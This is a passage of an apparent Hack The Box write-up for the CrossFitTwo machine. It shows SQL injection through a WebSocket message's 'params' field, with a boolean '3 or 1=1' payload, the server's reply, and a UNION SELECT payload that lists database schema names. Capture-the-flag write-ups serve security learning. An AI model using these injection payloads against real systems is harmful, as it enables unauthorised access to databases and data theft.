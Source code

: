 WebSocket send help message

![WebSocket response to help](/img/htb_img/CrossFitTwo_img/12.png)

WebSocket response to help

Looking at the messages, every message that we send has the token of the previous message that the server sent to us.

The only messages that we haven’t intercepted yet are the membership ones that check availability.

![image.png](/img/htb_img/CrossFitTwo_img/13.png)

We see a new parameter: debug.

```bash
"debug":"[id: 1, name: 1-month]"
```

It’s very interesting because it seems like it’s getting information from a database, depending on the params that we pass to it.

We try SQLI

```bash
{"message":"available","params":"3 or 1=1","token":"e6b34de5b31cc2a78c0e43eb7a03c9a7e38634ad3b88b4eaef7424d3787c77dc"}

{"status":"200","message":"Good news! This membership plan is available.","token":"a356f9c7a6bdff1ec143c6ce4f5b9f4459b596425e1a6b9a58e14797d2c128ec","debug":"[id: 1, name: 1-month]"}
```

---

So, the attack was succesful.

We try with this payload:

```bash
{"message":"available","params":"1 union select 1, group_concat(schema_name) from information_schema.schemata where schema_name not like '%schema' and schema_name != 'mysql' order by name desc; -- -","token":"dc2b08fc4d5e43f53bc66bab476b539404dfb01856b8a2b16ade336d42519f7a"}
```
